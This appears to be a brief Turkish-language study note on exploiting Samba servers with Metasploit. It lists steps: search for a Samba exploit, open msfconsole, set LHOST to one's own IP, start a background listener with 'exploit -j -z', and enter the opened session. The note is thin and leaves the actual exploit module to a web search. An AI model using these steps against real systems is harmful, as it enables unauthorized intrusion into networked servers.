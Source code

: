 #### Samba linux sunucuları ile windows sunucularını birbirine bağlar
#### Şirketlerdeki PC, yazıcı vb şeyleri birbirine bağlar
---
#### 1. Samba Numarasını ```(samba smbd 3.x-4.x) exploit``` ile google'da ararız
#### 2. ```msfconsole ``` açarız
#### 3. Google üzerinde çıkan komutları yazıyoruz
#### 4. ```LHOST``` bizim IP adresimiz
#### 5. ```exploit -j -z``` dinleyeme başlıyoruz ```-j -z``` dersek dinlemeyi arka planda yapar
#### 6. ```sessions -l``` açık olan portları görürüz
#### 7. ```session 1``` 1. session açık olduğu için o porttan giriş yapar
